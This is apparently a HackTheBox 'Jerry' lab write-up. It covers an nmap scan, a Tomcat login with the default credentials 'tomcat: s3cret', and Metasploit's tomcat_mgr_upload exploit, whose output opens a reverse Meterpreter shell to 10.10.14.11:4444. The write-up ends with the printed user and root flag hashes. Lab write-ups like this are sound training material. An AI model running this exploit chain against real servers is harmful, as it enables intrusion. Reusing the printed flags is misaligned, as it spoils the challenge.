


# Jerry

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.95

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

## Apache Tomcat


## Default Tomcat Credentials
Logged in using default Tomcat credentials.

```
tomcat: s3cret
```



## RCE via Tomcat MGR Upload
https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat

Finally, if you have access to the Tomcat Web Application Manager, you can upload and deploy a **.war** file (execute code).

### Limitations
You will only be able to deploy a **WAR** if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**).

### WAR
In software engineering, a WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

### Exploitation Using Metasploit Module
```
Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.95      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'fi
                                            le:<path>'
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used
                                            )
   VHOST                          no        HTTP server virtual host
```

```
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying LEOfH2...
[*] Executing LEOfH2...
[*] Undeploying LEOfH2 ...
[*] Sending stage (58055 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.95:49192) at 2021-03-26 21:56:24 +0300

meterpreter > getuid
Server username: JERRY$
```

## The Flags
```
meterpreter > ls
Listing: C:\Users\Administrator\Desktop\flags
=============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100776/rwxrwxrw-  88    fil   2018-06-19 07:11:36 +0300  2 for the price of 1.txt

meterpreter > cat 2\ for\ the\ price\ of\ 1.txt 
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
